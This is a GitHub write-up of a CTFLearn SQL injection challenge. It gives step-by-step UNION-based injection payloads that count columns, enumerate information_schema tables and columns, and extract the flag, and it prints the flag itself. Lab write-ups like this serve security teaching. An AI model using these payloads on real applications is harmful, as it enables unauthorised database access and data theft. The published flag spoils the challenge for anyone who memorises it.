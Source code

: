 ## CTF-sqli
### CTF called [Inj3ction Time](https://ctflearn.com/challenge/149) got it from [CTFLearn](https://ctflearn.com).

## CTF SAYS: 
I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command.

well we got the hint we needed which is ``` UNION ``` command.


but first of all we will use ```1 ORDER BY #``` to know how many columns in select query, replace the # by numbers untill you got no results.

![image](https://user-images.githubusercontent.com/107954336/219982939-71a0ea30-eab4-4362-b27c-9d073f485a3f.png)


we got 4 columns so we will use ```union select``` to get them all in the return.

second of all we will test which column can we extract data from by replacing number of column with, ```version()``` or any other command. if one printed the version that means we can use it. 
```null union select 1,version(),3,4```

![image](https://user-images.githubusercontent.com/107954336/219983112-5fa717f7-fe4b-4e9f-9f48-15a66d00e070.png)

we have used "null" so we don't get results from the id and execute the ```union``` command.

we got 1 ,2 & 3 injected so we will use one of them.

third of all we will get the tables name by this injection.

```null union select 1,table_name,3,4 from information_schema.tables```

![image](https://user-images.githubusercontent.com/107954336/219983289-5533df50-f3a5-446d-a03b-3169e9eb7822.png)

we got a lot of results but we are interested in this one.
table name= w0w_y0u_f0und_m3

now we want to get the column name by using this injection.

```null union select 1,column_name,3,4 from information_schema.columns```

![image](https://user-images.githubusercontent.com/107954336/219983752-640f9961-243a-411c-a144-24a2c28a95ef.png)


great,we will take what we want. which is "column name = f0und_m3"

now we have gathered all the pieces we need. we just need to use this information to get what we want.

by using this injection.

```null union select 1,f0und_m3,3,4 from w0w_y0u_f0und_m3```

![image](https://user-images.githubusercontent.com/107954336/219983843-837c3f31-c916-43fc-a2b7-161a7ae1663f.png)


we got the flag.

```abctf{uni0n_1s_4_gr34t_c0mm4nd}```

